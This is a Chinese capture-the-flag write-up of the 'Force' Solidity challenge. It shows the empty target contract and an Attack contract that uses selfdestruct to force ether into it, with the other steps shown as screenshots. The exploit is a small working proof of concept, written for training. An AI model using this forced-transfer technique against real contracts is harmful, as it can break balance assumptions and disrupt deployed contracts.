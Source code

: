 # 7.Force

## 题目描述

![img](../../../.vuepress/public/img/1645310166968-61bf7c00-6a02-4a84-b26a-f895aa72be1e.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

题目要求为该合约余额大于0，而源码中不存在 fallback函数，导致合约不能通过常规交易接收以太币。

![img](../../../.vuepress/public/img/1645310742977-9e519e94-8580-4bce-b8fd-f08ab9203723.png)

我们在官方文档中可以看到一个函数介绍，可以在没有 fallback的情况下强制对合约进行转账

![img](../../../.vuepress/public/img/1645310796703-eff3f936-8b01-4abc-bac0-d636118592aa.png)



那我们的思路就是部署一个自毁合约，对这个合约转账后进行自毁对目标合约强制转入以太币

![img](../../../.vuepress/public/img/1645311086893-c7687fa0-ea7f-428e-98b2-f3fc236265fd.png)

部署攻击合约

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

contract Attack{
    
    address public addr;
    
    function setAddr(address x) public {
        addr = x;
    }
    
    function kill() public{
        address payable desaddr = payable(address(addr));
        selfdestruct(desaddr);
    }
    receive() external payable {}
}
```

向攻击合约地址转入 0.001 ETH

![img](../../../.vuepress/public/img/1645312161704-d95d2483-00d4-4c05-bfaf-dce922feb7a8.png)

![img](../../../.vuepress/public/img/1645312130166-8bf4b2ae-3e55-44f4-90e1-8d7d6f152e0c.png)

向目标合约调用自毁函数

![img](../../../.vuepress/public/img/1645312357912-61ba040b-d64c-473c-85cd-7a55d0b6881e.png)

查看交易hash是否成功

![img](../../../.vuepress/public/img/1645312376428-a376d0b7-f266-4525-ad66-937df46c3b46.png)

![img](../../../.vuepress/public/img/1645312386621-eb7a524d-962c-42bc-812f-40006baca411.png)

目标合约成功被强制转入ETH